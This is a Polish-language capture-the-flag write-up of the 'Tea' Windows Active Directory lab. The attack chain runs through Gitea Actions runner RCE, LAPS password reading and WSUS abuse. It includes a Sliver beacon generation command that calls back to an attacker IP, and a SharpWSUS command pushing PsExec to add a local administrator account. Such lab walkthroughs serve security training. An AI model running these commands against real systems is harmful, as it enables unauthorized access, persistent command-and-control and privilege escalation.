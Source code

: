 # Tea
Windows, Medium, created by **kozie**

![tea_slide](https://github.com/user-attachments/assets/1d64456c-c18d-4db6-baed-de06eb17eed7)

```
Nmap scan report for 10.10.162.37
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-12-22 12:22:54Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: tea.vl0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: tea.vl0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
51834/tcp open  msrpc         Microsoft Windows RPC
62537/tcp open  msrpc         Microsoft Windows RPC
64037/tcp open  msrpc         Microsoft Windows RPC
64039/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
64040/tcp open  msrpc         Microsoft Windows RPC
64051/tcp open  msrpc         Microsoft Windows RPC


Nmap scan report for 10.10.162.38
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
135/tcp   open  msrpc         Microsoft Windows RPC
445/tcp   open  microsoft-ds?
3000/tcp  open  ppp?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=SRV.tea.vl
| Issuer: commonName=SRV.tea.vl
8530/tcp  open  http          Microsoft IIS httpd 10.0
8531/tcp  open  unknown
49670/tcp open  msrpc         Microsoft Windows RPC

```

nice z smb null i guest.
nic z ldapa.
na 3000 mamy gitea.

![{3FB20AF9-7422-4ED7-A495-A7EE71B75837}](https://github.com/user-attachments/assets/6e401bfa-8b32-447b-b04f-68d7cea4907f)

robimy usera.

![{0288ED8E-C6EA-4421-B4D8-4BBFB6D5B755}](https://github.com/user-attachments/assets/eec0a41f-3cdd-40c8-b1f3-aa6c343444ea)

wygląda na to, że to będzie rce przez gitea runners

zrobię krok po kroku.

Create a new repo

![{5621793F-60A6-491C-AD2E-689A5DCAAD4D}](https://github.com/user-attachments/assets/bec20240-5cf4-4067-a792-5ef65a3fc02e)

![{91C18823-F149-42AF-B21B-4F6E9F5DD289}](https://github.com/user-attachments/assets/4a0da2c0-e8ed-4895-904e-35ec552e6a74)

stworzyło się.

w settings klikamy `Enable Repository actions`

![{F32DCB5D-D9EE-49B6-95F8-D7C85BC29F7B}](https://github.com/user-attachments/assets/c739d176-017f-4fef-8920-8bcc822caec7)

teraz troche `docsów` [https://blog.gitea.com/feature-preview-gitea-actions/](https://blog.gitea.com/feature-preview-gitea-actions/)

![{C20DE314-D141-4A81-ACF5-0FC79EFD4464}](https://github.com/user-attachments/assets/072acc29-2b3d-4de2-88fe-815a87bf1cb6)

o i mamy nasz payload (ale pamiętamy, że to windows)

generuję sobie revshella w powershellu

![{A377889B-7A21-4443-8C15-8E00B8175368}](https://github.com/user-attachments/assets/2e3570b5-8e4b-4804-8a0f-78231837364d)

![{E813ACD1-40F6-4CEE-90B8-8D9462FD5EAF}](https://github.com/user-attachments/assets/52ae54a0-790c-4b9d-ab9f-d12ae93a5aaf)

mniej więcej coś takiego. Teraz commit changes

![{47B8C10F-CE93-4202-9B8D-19F536B1DFC9}](https://github.com/user-attachments/assets/eff71693-f33f-4a96-acd1-72d11285d718)

i mmay shella po ~10sek

![{3883BA25-4D3C-4BEA-8CFD-C3E65510C34D}](https://github.com/user-attachments/assets/6e2ccf27-2e9d-41c5-8cbb-360fd85d0f75)

już myślałem, że fajny shell będzie, ale.. port 22 nie jest otwarty :/

![{09F838FD-C64B-44D6-8B65-07A38A900AEA}](https://github.com/user-attachments/assets/fb31869c-62c6-411a-916b-84c7de7c7c10)

ale chociaż flagę dali

![{091F78EF-5662-467D-9831-0509621C3DAA}](https://github.com/user-attachments/assets/6fa51966-36ad-4e1b-8cc2-42b6ae6fa748)

te grupki ciekawe całkiem.

![{3B3A3B61-C126-4686-9596-358494B15A85}](https://github.com/user-attachments/assets/31b5559e-bdb3-4f62-9e5f-894aca334c70)

psexec też ciekawe, że widzimy tutaj (ale laps ciekawsze)

![{39A58CE0-01D4-4C4D-8D58-6C40CA2B1FC7}](https://github.com/user-attachments/assets/2e955980-5b28-4f79-9f03-05da1943dc74)

z ciekawosci wziąłem hash i sprawdzam czy hasło nie wystęuje w rockyou
- nie występuje

Ostatnio trochę mocniej w redteam idę i bawię się sliverem więc tutaj użyjemy slivera zamiast ładować binarki na maszynkę.
```
generate beacon --seconds 5 --jitter 3 --os windows --arch amd64 --format EXECUTABLE --http 10.8.4.124:443 --name tea --save ./beacon.exe -G 
```
(to leci kilka minut. Jak chcesz szybciej to daj sobie --skip-symbols)

![{1FEA1625-9874-4853-87F3-60A89544B0D9}](https://github.com/user-attachments/assets/3ba8bf74-1525-429e-8b81-1037052d6e5b)

![{A1EAA0A4-A09D-4AAA-84C8-5B66F214A021}](https://github.com/user-attachments/assets/1e53e662-f6a1-4a14-b3df-95ac0d67dda6)

i mamy to

![{AEDBCEB7-A851-45D5-A9DA-01C875DA0839}](https://github.com/user-attachments/assets/3f782e27-9a0e-4076-9b32-bca914b1ec7d)

`sharp-hound-4 -i -s -t 120 -- -c all`

![{D5E53598-B2B1-43BB-B647-FC35C9916F4B}](https://github.com/user-attachments/assets/5a8a9f8e-b827-4ff5-b2fc-4614f647fdcb)

![{65326E1F-3156-41F5-9D57-1115049B6BA8}](https://github.com/user-attachments/assets/b52a7459-5007-49bf-8163-6a7b95650488)

chyba mam za nowego bloodhound :/
- Ale to oleję. Wiemy, że mamy coś z lapsem więc spróbuję zobaczyć czy mamy uprawnienia do czytania hasła z LAPS po prostu z powershella (bloodhound nie robi jakiejś magi. To tylko zbiór komend xd)

![{938D800B-51E0-45DD-AFE0-7B9A99B64E3F}](https://github.com/user-attachments/assets/5f2771c8-f223-48b8-a121-892b666ccf4b)

Możemy.

![asplaintext](https://github.com/user-attachments/assets/c73cb875-b51a-47bc-8e12-359a10129e0d)

- próbuję uruchomić drugą sesję slivera jako administrator, ale... składnia mi się działa.
- Poszedłem na RDP :D

![{84EFACF5-2B7E-4442-B20E-247C471D14F2}](https://github.com/user-attachments/assets/1f6c156a-bd55-49c1-8a66-a8ea7a30f563)


![{F3ABBF20-62F8-49A2-BFEE-BD850CA5CA3C}](https://github.com/user-attachments/assets/de7b383d-335f-41e0-b17e-61f310c7b756)

no to została nam jedna flaga
- szukając eskalacji możemy wrócic to tego co widzieliśmy.

![{044CA1EE-36B1-49E7-AC3B-76DAB67A96DB}](https://github.com/user-attachments/assets/c2ceb26f-b751-4409-bd7e-e41f037f6011)

![{CB905CF4-A02E-429A-87F8-220C90BA32A8}](https://github.com/user-attachments/assets/fe883697-a3e7-45f4-9ac8-e11813a9313d)

![{74B36F89-7BDA-47B8-8CFA-234150C6B61B}](https://github.com/user-attachments/assets/8d1c5797-7a0d-478f-8558-e1eb11b36102)


wygląda jakby pasowało :D

o to też wygląda jakby pasowało `https://github.com/techspence/SharpWSUS.git`

![{F9F6FFEF-5D9D-4BB8-81FE-7E55CB146C0F}](https://github.com/user-attachments/assets/62797a22-a4b4-483a-a53c-5b4466d738a1)

pobrałem sobie

![{E7DCFFB1-2E15-45C3-B112-506A6EDD295F}](https://github.com/user-attachments/assets/c3261892-4724-4fc5-8fcb-6e305e4fa03c)

```
sharpwsus.exe create /payload:"C:\_install\PSExec64.exe" /args:"-accepteula -s -d cmd.exe /c \\"net user Hollow Password1! add && net localgroup administrators Hollow /add\\""
```

![{89AD566F-ACFE-4BDF-AA01-D1CB182F9052}](https://github.com/user-attachments/assets/bd6f2c71-39cf-4740-a1bc-94dc3eca1b00)


![{18E78348-719E-4566-ACC6-B94B17D963E7}](https://github.com/user-attachments/assets/75305924-6f30-4eb5-b658-dd81a52bf56b)

![{5C7AF4FE-AAB0-4D85-A78F-A2613A4BAF09}](https://github.com/user-attachments/assets/416febc8-7024-40b4-ad5f-ec3cbd8e2550)

jakoś po minucie mamy tutaj update

![{58FC3C4E-74C6-4AF5-8BE1-6D478D1D8952}](https://github.com/user-attachments/assets/224c3ea8-9126-4bb8-8b25-17c4effca655)

po kolejnych 3 minutach nie widzimy naszego usera :(



